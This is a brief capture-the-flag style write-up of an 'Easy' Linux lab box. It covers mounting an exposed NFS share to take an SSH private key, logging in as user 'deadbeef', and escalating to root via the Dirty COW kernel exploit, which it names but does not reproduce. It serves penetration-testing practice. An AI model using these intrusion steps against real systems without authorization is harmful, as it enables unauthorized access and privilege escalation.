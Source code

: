 <a href="https://0xvenus.github.io" style="display:inline-block; padding:8px 12px; background:#0078d4; color:#fff; text-decoration:none; border-radius:4px;">
    ⬅ Back to Homepage
</a>


### FULLMOUNTY

OS = Linux

Difficulty = Easy

#### Nmap scan

![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/dd23e073-c340-45ae-a2e2-dd28af07eaed)

Enumerating other ports gives nothing IG🧐.

let's move to nfs

you can learn more about NFS enumeration [here](https://book.hacktricks.xyz/network-services-pentesting/nfs-service-pentesting)


so let's list the shares mount it

```mkdir /tmp/mount```

```showmount -e 10.150.150.134```

```sudo mount -t nfs -o vers=3 10.150.150.134:/srv/exportnfs /tmp/mount/ -o nolock```

![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/23fda0de-c7d7-47fa-adc2-f7896d027f0f)


from the result we have an ssh private key which can be used for sshing into the box 🔥

reading the public key *id_rsa.pub* we have a user ```deadbeef```

let's give permission to the ssh key file

```chmod 600 id_rsa```

so ```ssh -i id_rsa deadbeef@10.150.150.134```
![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/c9e63b9b-276b-46c1-ac5c-4594ec4a7c93)

And yeah we have the user flag 😎😎.

### Privilege escalation

The Kernel version is vulnerable to dirtycow exploit

to confirm that run ```uname -a```

Also, for you to be able to exploit it, you need to compile the exploit on an Ubuntu machine with the same kernel version😪.

Doing that i was able to escalate privilege successfully

![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/39f5c047-110a-4ce5-a0fe-1e83b94f5b72)


Thanks.



